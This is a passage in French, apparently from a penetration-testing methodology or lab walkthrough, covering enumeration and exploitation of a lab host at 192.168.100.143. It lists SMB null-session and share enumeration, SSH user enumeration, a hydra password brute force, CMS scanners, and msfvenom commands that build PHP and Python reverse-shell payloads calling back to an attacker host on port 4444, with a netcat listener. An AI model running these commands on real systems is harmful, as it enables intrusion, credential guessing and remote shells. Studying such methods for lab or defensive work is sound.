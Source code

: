 
### **Phase 2 : Énumération Approfondie**

#### **Services SMB/NetBIOS**
```bash
# Énumération SMB
enum4linux 192.168.100.143
smbclient -L //192.168.100.143/
smbmap -H 192.168.100.143

# Recherche de shares accessibles
smbclient //192.168.100.143/share_name

# Exploitation nullsession
rpcclient -U "" 192.168.100.143
```

#### **Services SSH**
```bash
# Banner grabbing
nmap -sV -p 22 192.168.100.143

# Énumération d'utilisateurs
./ssh-user-enum.py 192.168.100.143

# Test de clés par défaut
hydra -L users.txt -P passwords.txt ssh://192.168.100.143
```

#### **Applications Web CMS**
```bash
# WordPress
wpscan --url http://192.168.100.143/ --enumerate u,p,t,tt

# Drupal
droopescan scan drupal -u http://192.168.100.143/

# Joomla
joomscan -u http://192.168.100.143/
```

### **Phase 3 : Exploitation**

#### **Préparation des payloads**
```bash
# Reverse shell PHP
msfvenom -p php/reverse_php LHOST=192.168.100.130 LPORT=4444 -f raw > shell.php

# Reverse shell Python
msfvenom -p python/shell_reverse_tcp LHOST=192.168.100.130 LPORT=4444 -f raw > shell.py

# Listener Netcat
nc -nlvp 4444
```
